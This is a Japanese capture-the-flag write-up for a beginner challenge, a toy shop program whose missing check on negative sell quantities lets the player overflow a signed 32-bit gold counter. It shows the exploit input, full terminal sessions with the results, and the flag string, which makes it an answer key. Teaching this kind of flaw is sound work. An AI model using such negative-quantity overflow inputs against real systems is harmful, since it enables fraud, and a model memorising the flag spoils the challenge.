



# abnormal (BinaryExploitation, beginner) writeup
整数オーバーフローの脆弱性を起こして所持金をプラスにもっていき、flag を購入する問題。  
所持しているアイテムを売ることができ所持数以上は売ることができないが、マイナスの値のチェックがされていないので整数オーバーフローによって所持金を増やすことができる。

## TL;DL;
1. nc で接続後に 2 (sell) を選択する
2. 整数オーバーフローさせるために、2 (Legendary Sword) を -10000 個売る
3. 32bit int で -2200000000 が加算されたことでオーバーフローが発生し、所持金が大きなプラスになっていることを確認する
4. 1 (buy) を選択後に 4 (flag) を選択して flag を表示させる 


## Details
アクセスすると FLAG を買うことのできるショップであることがわかる。だが、FLAG は 9,999,999 円と高額で持ち物をすべて売却しても買えないため、脆弱性をついて所持金を増やす必要がある。  



いろいろ試してみると、所持金を増やせそうな箇所として「売却で指定する個数」が怪しいのではないかと推測できる。試しに伝説の剣の売却数に `2` を指定すると売却できない判定になるが、`-1` を指定すると売却が成立し所持金がマイナスになる。



売却の処理についてリバースエンジニアリングを行うと、個数より大きい場合についての分岐はあるがマイナスの場合の分岐処理はなく、検証もなしに所持金に対して演算処理を行っている。所持金の変数は「符号付き32bitの整数」(signed int32)であるため、非常に大きなマイナスの個数を与えれば整数オーバーフローが起こりプラスに逆転するはずである。
 

符号付き 32bit の下限値は -2,147,483,648 （-2^31）であるため、伝説の剣の 220,000 円を -10,000 個 (= -2,200,000,000) 売ることで符号が反転しそうである。実行した結果が以下。

```shell=
=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 2
How many Legendary Sword do you want to sell? (you have: 1): > -10000
Thank you :)

+================= Player Status =================+
| 💰 Gold: 2094968296                            |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
```
所持金が爆増して FLAG が買える所持金となったため、FLAG を購入してチャレンジは完遂である。
```shell=
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 1

=== 🛍️ What would you like to buy? ===
 1. Torch - 10 yen
 2. Holy Water - 20 yen
 3. Great Stone - 800 yen
 4. FLAG - 9999999 yen 

Select an item to buy: 4
🎉 Congratulations! Here is your flag:
flag{Th3_m1nu5_cr33p5_b3y0nd_ch405}
```

ちなみに細かい原理までわからずとも、ひたすらにマイナスの値を入れ続ければそのうちオーバーフローするので、マイナスの所持金にピンと来た方がいれば粘り続けることでいつか解けるはずである。

```shell=
$ ./bin/abnormal 

+================= Player Status =================+
| 💰 Gold: 1000                                  |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 1
How many Herb do you want to sell? (you have: 100): > -10000000
Thank you :)

+================= Player Status =================+
| 💰 Gold: -99999000                             |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 2
How many Legendary Sword do you want to sell? (you have: 1): > -1000000
Thank you :)

+================= Player Status =================+
| 💰 Gold: -1056666904                           |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2   

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 1
How many Herb do you want to sell? (you have: 100): > -100000000   
Thank you :)

+================= Player Status =================+
| 💰 Gold: -2056666904                           |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 1
How many Herb do you want to sell? (you have: 100): > -100000000
Thank you :)

+================= Player Status =================+
| 💰 Gold: 1238300392                            |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
```

## flag
`flag{Th3_m1nu5_cr33p5_b3y0nd_ch405}`

## Full PoC
```shell=
$ nc localhost 8101
=================================================
      _____ _ _       _____ _                
     |  ___| (_)_ __ |  ___| | ___  _ __     
     | |_  | | | '_ \| |_  | |/ _ \| '_ \    
     |  _| | | | |_) |  _| | | (_) | |_) |   
     |_|   |_|_| .__/|_|   |_|\___/| .__/    
               |_|                 |_|       
                                              
           Welcome to Flip-Flop Shop!          
=================================================


+================= Player Status =================+
| 💰 Gold: 1000                                  |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 2
How many Legendary Sword do you want to sell? (you have: 1): > -10000
Thank you :)

+================= Player Status =================+
| 💰 Gold: 2094968296                            |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 1

=== 🛍️ What would you like to buy? ===
 1. Torch - 10 yen
 2. Holy Water - 20 yen
 3. Great Stone - 800 yen
 4. FLAG - 9999999 yen 

Select an item to buy: 4
🎉 Congratulations! Here is your flag:
flag{Th3_m1nu5_cr33p5_b3y0nd_ch405}
```